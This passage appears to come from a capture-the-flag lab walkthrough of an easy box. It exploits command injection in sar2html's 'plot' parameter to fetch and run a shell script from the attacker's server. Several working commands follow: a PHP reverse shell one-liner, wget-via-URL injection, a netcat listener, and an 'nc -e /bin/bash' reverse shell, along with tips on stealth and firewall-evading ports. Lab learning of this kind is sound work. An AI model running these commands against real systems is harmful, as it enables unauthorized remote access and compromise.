 Well, that's seems pretty obvious that we should poke at sar2html and then see about that php file upload.

## Initial Compromise

When I'm learning, I like to go nuts to see what commands can and cannot be run remotely, but keep in mind in the real world you want to be stealthy.  Since I knew we were running PHP, this is a great time to try a PHP shell.  I'm making my own cheat sheet for shells, but you can't go wrong with [PenTestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).  I could see of I can run the php command right there in the URL, but I didn't like the way the output was sort of hidden and again, be stealthy, try not to put too much in the URL.

So, I copy over my shell and save it as shell.sh to send to the victim:
>  php -r '$sock=fsockopen("10.10.10.11",8888);exec("/bin/sh -i <&3 >&3 2>&3");'

Now I encourage you to play with the ports with your shell when you are learning.  On easy boxes they don't run firewalls so you can pick any port (for some reason I always use 8888), but in the real world you're going to have restrictions, so get into the habit of using 443, 53, or other common ports.  In this case, it doesn't matter which port you picked.  Now whatever directory you saved your shell script in, you can start a Python web server or if you want to get real fancy, throw it over to /var/www/html and fire up Apache.  I've done this in the past just to learn how to do it, but it's much more convenient to just use python:
>python -m SimpleHTTPServer 8080

OR for Python 3
>python -m http.server 8080

Side note: use any port you want, but again keep in mind firewalls.  I like to use 8080 since it's a HTTP backup port and it help me organize what I have running on what port (remember I typically use 8888 or 443 for a netcat shell).

Now, let's run a command on the victim to get our file:
>http://10.10.10.10/sar2HTML/index.php?plot=;wget%20http://10.10.10.11:8080/shell.sh

Wget is a pretty common Linux utility, so we should be fine.  Just in case though, you can run "which command" where command is the command you want to check, and if you get the file path returned, you know that it exists.  Now that the shell script is on the victim, let's set up our listener:
>nc -nlvp 8888

Now back to the victim, and run the shell script:
>http://10.10.10.10/sar2HTML/index.php?plot=;./shell.sh
And boom, you got a shell!

Now, one thing I don't like about some people's write ups is that they aren't creative.  How else could you have done that?  Was there any other way?  I pondered for a niot here.  We could've served up netcat and run this on the victim:
>nc 10.10.10.11 -e /bin/bash

Or we could have explored the file system, did some digging in PHP and see if we could've uploaded a file to that uploads directory.  Remember that Kali has some basic webshells (/usr/share/webshells/php) so we could've tried that.  Maybe if we enumerated more, could we have found a login page and brute forced the login?  Plenty to think about for sure.  The methodology should always be to try the easy/simple stuff and work your way up the difficulty chain, but we're trying to learn everything we can here.  Take some notes on paths you might want to try and come back after you complete the box to try them.
